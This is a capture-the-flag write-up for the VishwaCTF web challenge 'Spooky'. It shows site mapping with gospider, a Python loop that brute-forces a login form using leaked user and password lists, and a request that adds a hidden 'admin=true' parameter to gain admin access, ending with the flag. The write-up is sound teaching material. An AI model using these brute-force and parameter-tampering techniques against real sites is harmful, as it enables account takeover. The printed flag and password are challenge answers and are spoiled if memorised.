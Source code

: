 # **Writeup - VishwaCTF**

* Category **WEB** <!-- challenge category -->
* Name **Spooky** <!-- challenge name -->
* Difficulty **Medium**

## Description
The challenge show us a site, and the description report that a user forgot his login credentials. The scope of the challenge was to recover the forgotten credentials.

## **Solution**
Firstly looking at the web interface there weren't clues about what to do. So to retrieve more information there were two possibilities:
* Use dirb to see if there are some useful folders to retrieve information.
* Use gospider in order to try to retrieve sitemap.xml or robots.txt 
</li>
So trying the second way by executing the command:
```shell
gospider -s https://ch39763117927.ch.eng.run/ --sitemap
```
from the sitemap.xml file we discover there are two interesting files inside creds folder, namely pass.txt and user.txt, containing list of user and password of the site. At this point in order to login we bruteforce for every user in users.txt all passwords in pass.txt. It is possible to do this from script using following code
```Python
import requests  
  
url = "https://ch39763117934.ch.eng.run/"  
user_res = requests.get(f"{url}/creds/users.txt")  
users = user_res.text.strip(' \n').split('\n')  
password_res = requests.get(f"{url}/creds/pass.txt")  
passwords = password_res.text.strip(' \n').split('\n')  
correct = tuple()  
  
for user in users:  
	for password in passwords:  
		res = requests.post(f"{url}/login.php", data={"user": user, "pass": password})  
		# log print  
		print(user, password)  
		if "Incorrect" not in res.text:  
			print(res.text)  
			correct = (user, password)  
			break  
	if "Incorrect" not in res.text:  
		break
```
At this point we are logged as user shrekop, with password "VmU5gnXKYN2vLp48", but there's no flag on the page. After thinking about it, the first idea was insert an additional param ```admin='true'``` in the form in order maybe to become admin with the code lines:
```Python
res = requests.post("https://ch39763117927.ch.eng.run/login.php", data={"user": correct[0], "pass": correct[1], 'admin': 'true'})  
print(res.text)
```
This worked as the response was:
```html
<b>Logged in as </b> shrekop (admin)<script>alert('Congratulations. You got the flag!');</script><script>alert('VishwaCTF{h1dd3n_P@raMs}');</script>
```
